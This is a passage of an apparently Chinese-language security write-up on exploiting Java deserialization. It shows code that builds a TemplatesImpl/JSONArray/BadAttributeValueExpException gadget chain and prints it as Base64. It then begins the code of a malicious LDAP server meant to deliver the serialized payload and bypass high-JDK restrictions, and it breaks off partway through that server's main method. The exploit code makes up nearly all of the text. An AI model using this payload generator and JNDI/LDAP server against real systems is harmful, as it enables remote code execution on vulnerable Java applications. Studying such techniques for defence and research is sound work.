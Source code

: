 ```plain
        setValue(templates, "_name", "qiu");
        setValue(templates, "_tfactory", null);

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd, "val", jsonArray);

        HashMap hashMap = new HashMap();
        hashMap.put(templates, bd);


        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashMap);
        objectOutputStream.close();
        byte[] serialize = byteArrayOutputStream.toByteArray();
        System.out.println(Base64.getEncoder().encodeToString(serialize));
//                ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
//        objectInputStream.readObject();

    }}
```

‍

但由于 jdk 高版本的限制所以要用到一些手法绕过，这里用的就是 LDAP 返回序列化字符串来打反序列化了

‍

起一个恶意的 LDAPServer，里面加载了恶意的序列化数据

LDAPServer

```plain
package JNDIBypass;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import com.unboundid.util.Base64;
import org.apache.commons.io.FileUtils;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.File;
import java.io.IOException;
import java.net.InetAddress;
import java.net.URL;
//高版本 LDAP 绕过

public class LDAPServer {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main (String[] tmp_args ) throws Exception{
        if (tmp_args.length < 2) {
            System.out.println("Usage: java xxx.jar <IP> <file>");
            System.exit(1);
```